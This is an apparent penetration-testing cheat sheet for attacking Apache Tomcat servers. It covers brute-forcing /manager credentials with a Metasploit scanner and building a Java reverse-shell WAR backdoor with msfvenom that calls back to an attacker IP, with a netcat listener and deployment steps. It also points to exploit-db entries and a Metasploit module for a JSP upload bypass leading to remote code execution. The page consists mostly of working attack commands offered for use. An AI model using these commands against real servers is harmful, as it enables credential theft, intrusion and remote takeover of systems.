 # Apache Tomcat

For /manager, we need credentials.

For automatic brute force

```
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
```

### WAR File Backdoor

When we got the credentials for manager, we can get shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=192.168.1.1 lport=80 -f war -o pwn.war
```

Browse -> Deploy

nc -nvlp 80

http://192.168.1.2:8080/pwn/

### Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution

[https://www.exploit-db.com/exploits/42966\
https://www.exploit-db.com/exploits/42953](https://www.exploit-db.com/exploits/42966https://www.exploit-db.com/exploits/42953)

msf6 exploit(multi/http/tomcat\_jsp\_upload\_bypass)
